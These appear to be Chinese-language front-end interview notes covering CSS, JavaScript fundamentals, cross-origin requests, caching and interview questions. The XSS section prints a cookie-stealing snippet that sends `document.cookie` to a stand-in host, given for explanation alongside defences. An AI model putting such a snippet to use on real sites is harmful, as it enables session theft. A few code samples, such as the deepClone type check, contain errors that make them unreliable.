

## inline,inline-block,block区别

- block
  - 块状元素会独占一行，默认情况下块状元素宽度会自动填满父元素宽度
  - 块状元素可以设置宽高，而且就算设置了宽度也是独占一行
  - 块状元素可以设置margin和padding
- inline
  - 内联元素不会独占一行，多个相邻的内联元素会排列在同一行，直到一行排不下才会换行
  - 内联元素不能设置宽高，宽度随元素内容而变化
  - 内联元素可以设置水平方向的margin和padding，垂直方向无效
- inline-block
  - 内联块就是对外呈现内联，对象内容作为块状呈现。比如我们可以给a标签设置为inline-block，使之具有块状元素的宽高特性和内联的同行特性
- 其他
  - 块状元素可以包含内联和块状元素，但是内联只能包含内联。而且特定元素只能包含特定元素，比如p标签只能包含内联不能包含块状，ul标签只能包含li标签

## 定位类型

- static: 默认值，元素放在默认位置
- relative: 相对默认位置定位
- fixed: 相对浏览器窗口定位
- absolute: 相对最近的非static祖先元素定位
- sticky: 根据滚动条位置定位

## 层叠上下文(待续)

## 什么是BFC(待续)

格式化上下文指的是页面的一块渲染区域，有着自己的渲染规则，最常见的就有`BFC`(块状格式化上下文)和`IFC`(内联格式化上下文)

- 怎么样才能实现BFC
  - float的值不为none
  - overflow的值不为visible
  - display的值为table-cell，table-caption，inline-block中的任意一个
  - position的值不为relative和static
- 规则
  - 属于同一个BFC的两个相邻BOX的margin会发生重置
  - BFC的区域不会与浮动元素重叠(将浮动元素下方的元素设置为BFC)
  - 计算BFC的高度，浮动子元素也参加计算
  - BFC就是网页上一个独立容器，里面的子元素不会影响外面元素

## 实现水平垂直居中

```css
// 使用margin: auto
div {
    width: 500px;
    height: 300px;
    background: red;
    position: absolute;
    top: 0;
    left: 0;
    right: 0;
    bottom: 0;
    margin: auto;
}

// 知道盒子长宽
div {
  width: 500px;
  height: 300px;
  background: red;
  position: absolute;
  top: 50%;
  left: 50%;
  margin: -150px 0 0 -250px;
}

// 不知道盒子长宽
div {
  padding: 200px;
  background: red;
  position: absolute;
  top: 50%;
  left: 50%;
  transform: translate(-50%, -50%);
}

// flex布局
.container {
  width: 800px;
  height: 500px;
  display: flex;
  justify-content: center;
  align-items: center;
  background: red;
}
.child {
  width: 300px;
  height: 400px;
  background: yellow;
}
```

## css3过渡和动画

#### 过渡

```css
transition-property 指定过渡属性 none/all
transition-duration 持续时间
transition-timing-function 缓动函数 ease/ease-in/ease-out/ease-in-out/linear
transition-delay 延迟时间

transition: all 1s ease 1s; 合并写法
```

### 动画

```css
animation-name 调用动画的名称
animation-duration 持续时间
animation-timing-function 缓动函数 ease/ease-in/ease-out/ease-in-out/linear
animation-delay 延迟时间
animation-iteration-count 动画执行次数 x/infinite
animation-direction 缓动方向交替 normal(每次向前)/alternate(一次向前一次向后)
animation-play-state 停止播放动画 paused
animation-fill-mode 设置结束后不返回 none/forwards/backforwards/both

animation: myani ls ease 2 alternate 0s both; 简写形式

// 动画帧
@keyframes name {} 里面设置百分比或者from/to的css样式
```

## 节流与防抖

### 节流

*多久触发一次*

就是让一个函数每隔一段时间执行一次。比如`mouseover`事件，每移动一下会触发很多次，我们只需要这么快的频率，需要设置一个阈值，比如`200ms`触发一次。

**应用场景**

- `mouseover`(拖拽)
- `keyup`(搜索联想)
- 滚动加载更多

**js写法**
```js
function throttle (fn, wait) {
  let lastTime = null
  return function () {
    let nowTime = new Date()
    let context = this
    let args = arguments
    if (nowTime - lastTime > wait || !lastTime) {
      fn.apply(context, args)
      lastTime = nowTime
    }
  }
}

function test () {
  console.log(123)
}
window.onscroll = throttle(test, 1000)
```

**ts写法**
```js
/** 节流 */
function throttle(this: any, fn: (...args: any[]) => any, wait: number) {
  let last: number;
  return (...args: any[]) => {
    const now = Date.now();
    if (!last || now - last > wait) {
      fn.call(this, ...args);
      last = now;
    }
  };
}
```

### 防抖

*延迟多久触发*

就是让一定时间段内连续调用函数，最后只执行一次。比如窗口resize事件，伸缩时候触发很多次，而我们只需要一次。

**应用场景**

- resize事件
- scroll触发统计事件
- 文本输入的验证

**js写法**

```js
function debounce (fn, wait) {
  let timer = null
  return function () {
    let context = this
    let args = arguments
    if (timer) {
      clearTimeout(timer)
      timer = null
    }
    timer = setTimeout(function () {
      fn.apply(context, args)
    }, wait)
  }
}

function test () {
  console.log(123)
}
window.onscroll = debounce(test, 1000)
```

**ts写法**

```js
/** 防抖 */
function debounce(this: any, fn: (...args: any[]) => any, wait: number) {
  let timer: number;
  return (...args: any[]) => {
    if (timer) clearTimeout(timer);
    timer = setTimeout(() => {
      fn.call(this, ...args);
    }, wait);
  };
}
```

## 抽奖函数
```js
const RATE = Symbol("RATE");
const START = Symbol("START");
const END = Symbol("END");

interface IGift {
  [RATE]: number;
  [START]: number;
  [END]: number;
}

function lottery<T extends Record<string, any>>(gifts: T[], key: string = "rate"): T | null {
  const arr: Array<IGift & T> = [];
  let total = 0;
  // 计算范围
  gifts.forEach(gift => {
    const newGift = Object.assign({ [START]: total, [END]: total, [RATE]: gift[key] }, gift);
    total += gift[key];
    newGift[END] = total;
    arr.push(newGift);
  });
  // 随机落在那个范围
  const random = Math.random() * total;
  for (const gift of arr) {
    if (gift[START] <= random && random < gift[END]) {
      return gift;
    }
  }
  return null;
}
```

## 响应式viewport

**格式**

```html
<meta name="viewport" content="key1=value1, key2=value2">

例子
<meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1, user-scalable=no">
```

**key**

- width	可以设置为device-width
- height
- initial-scale
- minimum-scale
- maximum-scale
- user-scalable

## 清除浮动方法

- 下面元素使用`clear:both`清除上方的浮动
- 浮动元素的父元素使用伪元素`after`(ie6/7不支持)

```css
.wrap::after {
    content: '.';
    display: block;
    height: 0;
    visibility: hidden;
    clear: both;
    zoom:1； /**兼容ie6**/
}
```

- 父元素使用overflow: auto/hidden(创建bfc，ie6/7不支持)

## js实现继承

### es5

```javascript
// 原理 1. 对象冒充继承父类构造函数 2. 原型式继承父类原型

function create (Parent, Child) { // 可以使用Object.create()代替
  // 得到一个以proto为原型的对象
  function obj (proto) {
    function F () {}
    F.prototype = proto
    return new F()
  }
  var f = obj(Parent.prototype)
  f.constructor = Child
  return f
}
// 父类
function People (name, age) {
  this.name = name
  this.age = age
}
People.prototype.info = function () {
  return this.name + '--' + this.age
}
// 子类
function Man (name, age, hope) {
  People.call(this, name, age) // 对象冒充实现构造函数继承
  this.hope = hope
}
Man.prototype = create(People, Man) // 原型式继承父类原型
// Man.prototype = Object.create(People.prototype, { // 使用Object.create()代替
//   constructor: {
//     value: Man,
//     writable: true,
//     configurable: true,
//     enumerable: true
//   }
// })
Man.prototype.getHope = function () { // 先继承原型，再定义子类的原型方法
  return this.hope
}

// demo
let wenye = new Man('wenye', 22, 'work')
console.log(wenye)
```

### es6

```javascript
// 父类
class People {
  constructor (name, age) {
    this.name = name
    this.age = age
  }
  info () {
    return this.name + '--' + this.age
  }
}

// 子类
class Man extends People {
  constructor (name, age, hope) {
    super(name, age) // super继承父类构造函数
    this.hope = hope
  }
  getHope () {
    return this.hope
  }
}

// demo
let wenye = new Man('wenye', 22, 'work')
console.log(wenye)
```

## 什么是this

`this`表示在函数运行时，自动生成的一个内部对象，只能存在函数中

`this`不会按照词法作用域向上查找，而是按照调用位置决定的，有四种情况

- 在全局中直接调用，`this`就是`window`
- 通过对象调用，`this`就指向那个对象
- 通过`fn.call()`或`fn.apply`或`fn.bind()`绑定`this`
- `new Fn()`操作生成新对象，`this`指向新对象

## 垃圾回收机制

全局变量是等到页面卸载才结束，局部变量需要函数执行完(函数调用栈弹出)销毁(等待垃圾回收)

### 标志清除法

- 变量进入执行环境时(比如函数中声明一个变量)，将其标志为"进入环境"
- 变量离开环境(函数执行结束)，将其标志为"离开环境"
- 过段时间启用垃圾回收，排除以下三种情况后的变量(也就是"离开环境"状态)全部清除掉
  - 全局变量
  - 闭包引用的变量
  - 状态为"进入环境"的变量(因为这个状态的变量还需要用)

### 引用计数

- 声明一个变量，并将一个引用类型赋值给该变量时候这个值的引用次数加1
- 如果该变量的值变成了另外一个，则这个值的引用次数减一
- 当变量声明周期结束，指向的值的引用计数也要减一
- 当值的引用次数为0，则表示这个值可以回收

**注意**

- 引用计数无法解决循环引用的问题，因为引用次数不会变成0
- `IE`中的`js`对象也是使用标志清除的，只有`DOM`和`BOM`对象才是使用引用计数的

```javascript
window.onload = function () {
  var el = document.getElementById('box') // el引用数为1
  el.onclick = function () {} // el引用数为2 因为el引用onclick
  // 函数执行完，el引用减，剩下为1，不为0，所以不会被垃圾回收
}
```

### 什么时候进行垃圾回收？

比较耗资源，隔断时间运行，不同浏览器方式也不一样，`JavaScript`的垃圾回收运行时候会停止响应其他操作，大概`100ms`甚至以上

## 什么是闭包

闭包由于返回一个函数，为了这个函数能正确执行，就保留了函数所引用的变量，不会被垃圾收回

```javascript
// 计时器例子
let inc = (function () {
  let count = 1
  return function () { 
    console.log(count++)
  }
})()

inc() // 1
inc() // 2
```

## new操作符干了啥

1. 创建一个新对象
2. 对象的`__proto__`属性指向函数原型
3. 执行构造函数的代码(为这个新对象添加属性)
4. 返回新对象

```javascript
function Fn () {}

let obj = {}
obj.__proto__ = Fn.prototype
Fn.call(obj)
return obj
```

## 实现bind函数

- `vue`源码就是用的这个，说比原生的快
  - 据说原生`bind`方法还有处理`new`操作啥的
- 据说`call`比`apply`快

```javascript
function bind (fn, ctx) {
  function boundFn (a) {
    let l = arguments.length
    return l
      ? l > 1
        ? fn.apply(ctx, arguments)
        : fn.call(ctx, a)
      : fn.call(ctx)
  }
  boundFn.__length = fn.length
  return boundFn
}
```

## 常见排序算法

```javascript
function swap (array, a, b) {
  let temp = array[a]
  array[a] = array[b]
  array[b] = temp
}
// 冒泡排序
function bubble (arr) {
  for (let pre = 0; pre < arr.length - 1; pre++) {
    for (let next = pre + 1; next < arr.length; next++) {
      if (arr[pre] > arr[next]) {
        swap(arr, pre, next)
      }
    }
  }
  return arr
}
// 快速排序
function fast (arr) {
  if (arr.length <= 1) return arr
  let index = Math.floor(arr.length / 2)
  let cur = arr.splice(index, 1)
  let left = []
  let right = []
  for (let i = 0; i < arr.length; i++) {
    if (cur > arr[i]) {
      left.push(arr[i])
    } else {
      right.push(arr[i])
    }
  }
  return fast(left).concat(cur, fast(right))
}

console.log(
  fast([5, 1, 8, 3, 2, 10])
)
```

## 原生ajax怎么用

- `xhr`属性
  - `responseText `响应文本
  - `status `响应的`http`状态
  - `statusText` `http`状态的说明
  - `readyState`属性
    - 0 未初始化 尚未调用`open()`
    - 1 启动 已经调用`open()`，尚未调用`send()`
    - 2 发送 已经调用`send()`，尚未接受响应
    - 3 接受 已经接受部分响应数据
    - 4 完成 已经接受完所有数据
- `readyStateChange`事件 

```javascript
let xhr = new XMLHttpRequest()
// 监听响应
xhr.readyStateChange = function () {
  if (xhr.readyState === 4) {
    if (xhr.status === 200) {
      console.log(xhr.statusText)
    } else {
      console.log(xhr.status, xhr.statusText)
    }
  }
}
// 第三个参数true表示异步，false表示同步
xhr.open('post', 'http://www.baidu.com', true)
// 设置请求头
xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded')
// 发送数据
xhr.send('name=wenye&age=20')
```

## 怎么实现跨域

同源策略: 主机，端口，协议三个不同就是不同源，不允许跨域请求

## 种类

- DOM同源策略：禁止不同源DOM进行操作，主要是iframe跨域情况
- xmlHttpRequest同源策略: 禁止xhr对象向不同源的服务器发起http请求

## 为什么防止跨域

- ajax同源策略主要为了防止`csrf`攻击，比如钓鱼网站使用`ajax`请求目标网址
- DOM同源策略主要是防止钓鱼网站使用iframe嵌套目标网站，让人以为是目标网站，又可以操作目标网站的DOM获取用户密码

## 跨域方法

### 请求跨域

#### jsonp

利用`script`标签不收同源策略的影响

- 先定义好一个函数`function handle (data) {}`
- `script`标签`src `属性请求一个后端地址带上`query`参数(包括定义好的函数名`&callback=handle`)，返回一段执行`js`代码执行定义好的函数，参数就是服务端想要响应的`json`(`"handle(json)"`)

**缺点:** 

- 只能进行`get`请求
- 比较不容易区分请求成功还是失败

#### cors

服务端增加响应头

```javascript
Access-Control-Allow-Origin: * // 允许接受的主机名
Access-Control-Allow-Methods: POST, GET, OPTIONS // 允许的请求方法
Access-Control-Allow-Headers: X-PINGOTHER, Content-Type // 允许的请求字段
Access-Control-Max-Age: 86400 // 预请求缓存时间
// ...
```

如果需要带上`cookie`或`http`认证信息

```javascript
// 服务端
"Access-Control-Allow-Credentials": true
// 客户端
"withCredentials": true
```

**缺点**

低版本IE可能不支持

#### 代理

- `webpack`开发时候代理
- `nginx`代理

#### websocket

不受同源策略限制

### DOM跨域

#### document.domain跨子域

比如a.wenye.com和b.wenye.com都将自己的document.domain=wenye.com，这样就可以拿到嵌套iframe的window对象了

#### window.name

没怎么了解..

#### location.hash

没怎么了解..

#### postMessage

html5新api

## xss和csrf攻击是什么，怎么预防

### xss跨站脚本攻击

其实就是`html`注入，恶意`html/js`代码从数据库读取后没有做任何处理直接就显示在了网页上。

```javascript
// 例子一: 显示弹窗
<script>alert('hello')</script>

// 例子二: 盗取cookie
var i = new Image()
i.src = 'http://hack.com?cookie=' + document.cookie
```

**防范**

富文本 通过`v-html`显示的，要先过滤转义处理

- 前端: 富文本编辑器中，用户输入的内容都做转义处理(<>/&' ")，富文本的标签做过滤处理，过滤标签(比如script标签，style标签)，过滤属性(width, style, onClick )
- 后端: 使用xss过滤库，过滤标签和属性，不做转义处理

### csrf跨站请求伪造

比如你登录A网站，有了cookie，再访问钓鱼网站，钓鱼网站里面请求A网站，这样就会自动把你的cookie带过去了

```javascript

```

**防范**

- 验证`HTTP refer`头
- 验证码
- 使用`token`机制

## 浏览器缓存机制

### 缓存类型

**强缓存**

不会向服务器发送请求，直接从浏览器中读取缓存。状态码是200

- `expires`(http1.0)
  - 值为GMT表示的过期时间
  - 如果再次请求的时间在过期时间以内，就使用强缓存
- `cache-control`(http 1.1) 优先级更高
  - 值为max-age=秒数
  - 如果再次请求的时间和上次请求时间差小于秒数，则使用强缓存

**协商缓存**

会向服务器发送请求，根据请求头的一些参数判断是否命中协商缓存，如果命中则从浏览器缓存读取资源。状态码是304

- Etag与if-None-Match(精度高，性能低，优先级高)，前者是响应头作为第二次请求后者请求头的值
  - 是资源的唯一hash值，请求时重新生成Etag比较，一样则命中协商缓存，返回304，否则返回200和新的Etag
- Last-modified和if-modified-since
  - Last-modified表示资源GMT表示的最后一次修改时间，请求时查看比较，一样则命中协商缓存，返回304，否则返回200和新的Last-modified

### 缓存过程

第一次访问下载资源并缓存响应头，第二次请求先进行强缓存，过期才使用协商缓存

### 用户行为

- 触发浏览器缓存
  - 地址栏访问
  - 链接跳转
- f5刷新
  - 跳过强缓存，直接进行协商缓存(会设置cache-control的max-age=0)
- ctrl + f5
  - 跳过强缓存和协商缓存，直接拉取最新资源

## js事件循环机制

宏任务: `setTimeout`, `setInterval`, `setImediate`, `I/O`, `UI rending`

微任务: `process.nextTick`(插到微任务队首), `Promise.then/catch`, `Object.observer`, `MutationObserver`



## 常见的http状态码

- `1xx` 请求已经接受，需要继续处理
- `2xx` 成功
  - 200 OK
- `3xx `重定向
  - 301 永久重定向
  - 302 暂时重定向
  - 304 not modified 资源未修改
- `4xx `客户端错误
  - 401 未认证
  - 403 forbidden 比如配置nginx不允许访问空文件夹，那访问就会出现这个
  - 404 no found
  - 405 method no allowed
- `5xx` 服务器错误
  - 500 通用服务器错误

## 重绘与回流

### 渲染流程

- 网页将html代码解析成DOM树
- 将css解析成样式结构体，并去掉不能识别的样式
- 将DOM树和样式结构体组合成渲染树。渲染树的每一个节点就是一个BOX，有自己的样式。而且会去掉隐藏的节点(display: none)
- 使用渲染树绘制页面

### 重绘与回流

**重绘**

只是修改元素的一些属性，只会影响外观，风格，不会影响布局的，比如`background-color, color`

**回流**

- 当渲染树的一部分或者全部，因为元素的尺寸，布局，隐藏改变而需要重新构建。
  - 页面初始化渲染
  - 添加或删除可见元素
  - 元素位置改变
  - 元素尺寸改变(margin, padding, width, height, border)
  - 内容改变-比如文本改变引起重新计算宽高
  - 浏览器的resize事件
- 回流时候，浏览器会让渲染树中收到影响的部分失效，然后重新构造这部分的渲染树，完成回流后，有会有一次重绘的操作将受影响的部分绘制到网页中
- 回流必将引起重绘，重绘不一定会引起回流
- 每个页面至少要一次回流，也就是页面第一次加载的时候

**浏览器的优化**

- 浏览器会维护一个队列，将重绘与回流的操作放在里面，等到一定数量或时间才刷新队列
- 但有些代码可能会造成提前刷新队列，比如请求一些样式信息(为了获取最新值)
  - offsetTop/Left/Width/Height
  - srollTop/Left/Width/Height
  - clientTop/Left/Width/Height
  - width/height
  - getComputedStyle()

**优化点**

- 直接改变className而不是一步步改style
- 一次性插入元素
  - 使用innerHTML一次性插入
  - 使用DocumentFragment缓存后一次性插入
  - 使用display:none技术(会重绘回流两次)
- 缓存DOM结果(比如offsetTop的值)

## 常见的前端性能优化技巧

- http请求相关
  - 减少请求数量: 使用雪碧图，多文件合并，使用缓存(浏览器缓存，离线存储)（使用cdn托管则加快访问速度）
  - 减少请求大小: 代码压缩，网页gzip压缩，
- 重绘与回流(见上文)
- 其他
  - 图片懒加载
  - 图片预加载
  - 节流防抖
  - 将style放在头部，script放在底部
  - 不使用table布局

## 浏览器加载机制

网页会同步加载script，style，阻隔html渲染

script标签可以增加属性

- defer
  - 等到网页渲染完才下载执行
  - 多个defer脚本，按照页面出现的顺序架子啊
- async
  - 异步下载，下载完就执行(还是会中断页面渲染)
  - 多个async脚本加载顺序不确定

## tcp三次握手


**连接时候三次握手**

- 客户端发送一个带有`SYN`的tcp头部的数据包
- 服务器端返回一个带有`SYN/ACk`的tcp头部的数据包
- 客户端再发送一个带有`ACK`的tcp头部的数据包

**断开时四次握手**

- 主动关闭方发送`FIN`
- 被动关闭方发送`ACK`表示已经接受
- 被动关闭方发送`FIN`
- 主动关闭方发送`ACK`


## webpack基本原理

## 编写webpack loader plugin

## flex使用

**父元素**

- display flex/inline-flex
- flex-direction 项目排列方向 row/row-reverse/column/column-reverse
- flex-wrap 项目自动换行 nowrap/wrap/wrap-reverse
- **flex-flow flex-direction和flex-wrap的简写**
- justify-content 项目对齐方式 flex-start/flex-end/center/space-between/space-around
- align-items 处理额外空间 flex-start/flex-end/center/baseline/stretch

**子元素**

- align-self 单独项目的处理额外空间
- order 设置顺序
- flex-grow 项目的放大比例(默认为0不放大)
- flex-shrink 项目的缩小比例(默认为1，空间不足自动缩小，设置为0则空间不足也不缩小)
- flex-basis 项目占据的固定空间(默认auto，项目本身的大小)
- **flex flex-grow, flex-shrink, flex-basis的简写**

## 浏览器本地存储

### cookie

属于http协议的范畴，优点是可控制过期时间，伴随请求发送，可以用来做登录功能，缺点是数量和长度有限制

### localStorage

优点是容量更大，大概有5m，能永久存储，而且不会伴随请求放送，节约带宽。缺点是只支持string类型的存储，对象要转换成JSON，而且由于长期存储，所以还需要手动删除

### sessionStorage

类似localStorage，只是浏览器关闭就消失

### 其他存储

- html5的离线缓存(相对比浏览器缓存，断网也能用)
- 浏览器缓存
- indexedDB
- userData(640k，只在ie下有用)

## cookie简介

### 格式

```js
// []表示可选
document.cookie = 'key=value;[expires=过期时间;max-age=过期秒数;path=路径(默认/);domain=域名;secure=true/false/null(是否https)]'
```

### value的uri编码

**encodeURI()/decoURI()**

不会对特殊含义字符`/ ? @ & = + $ #`编码

**encodeURIComponent()/decodeURIComponent()**

更加彻底，上面特殊含义字符也编码

## 编写一个深拷贝函数

```js
// 简单深拷贝
function deepClone (obj) {
  let res = obj.constructor === 'object' ? {} : []
  for (let i in obj) {
    res[i] = typeof obj[i] === 'object' ? deepClone(obj[i]) : obj[i]
  }
  return res
}

//JSON
let res = JSON.parse(JSON.stringify(obj))
```

## DOM操作方法

## 对vuex理解

## 编写co模块

## less/sass的基本使用

变量，嵌套，条件判断循环，函数，混合 

## 遇到过的兼容性问题

## 数据库相关

## 非技术问题

**Q: 为什么选择这家公司？**


**Q: 你曾经面临最大的专业挑战是什么？你是怎么战胜它的？**

A: 这个一定要准备好，不能说没什么挑战，没什么挑战代表你没有认真去思考，就算是最简单的增删改查或者前端的动效，背后的原理，网络协议的原理，你都应该去了解。选出一个你钻研地比较深的点分享。

**Q: 是什么为什么你选择离开你现任公司？你从你上一家公司学到最重要的是什么？**

A: 大多数求职者不喜欢这个问题，也不知道怎么回答。这个问题你能回答好的话就能拉出距离了。我觉得答案其实很简单，你们公司的项目有更好的发展前景／我想挑战自己在这一方面的能力等等。至于说旧公司薪酬太低，工时太长，没前途这些就免了。

**Q: 你的长期工作目标是什么？**

A: 这个看个人，转管理的话可能会加一轮问管理方面的问题，转资深工程师的话可以讲下自己打算钻研哪个方向，大数据，人工智能，区块链都可以

## 面试官提问

**Q: 公司的前端团队有多少人，主要是做什么的？**

A: 这个问题其实揭示了公司的文化，如果新员工非常多，公司也不算新的话，那么代表流动率很高，公司文化可能不是很好。第二个问题其实就是问有没有大牛，有多少。有厉害的工程师总比没有要好得多，进步的速度也更快。一个公司如果有比较多优秀的工程师的话，代表是不错的公司。

**Q: 如果我入职的话，会被分到哪个项目组，项目组的成员构成是怎样？**

A: 这个可以了解公司的架构是不是清晰，个人职责划分是否明确。如果面试官回答不了这个问题，或者支支吾吾的话。即使你进去的话可能要兼顾几个项目，维护老项目。这些都要问清楚，你才知道自己大概的工作量有多少。维护旧项目虽然头疼，但是上线压力不大。如果新旧一起来，就要考虑自己是否适合这样的工作强度。

**Q: 公司每周会有技术分享会吗？**

A: 这个问题其实为下一个问题准备，如果我工作表现优秀的话，公司会不会有对应的奖励？

**Q: 可以申请调小组的吗？比如我分配到管理系统的小组，然后刚好有个小程序的项目，我最近又刚好研究小程序的话，可以申请调到小程序的小组开发吗？**

A: 这个问题其实为下一个问题准备，如果我工作表现优秀的话，公司会不会有对应的奖励？

**Q: 我今天面试的表现怎样，如果通过之后我还会经过多少轮，怎样的面试流程**

A: 首先可以了解自己的不足，积累经验。也可以开始为下一轮复试做准备


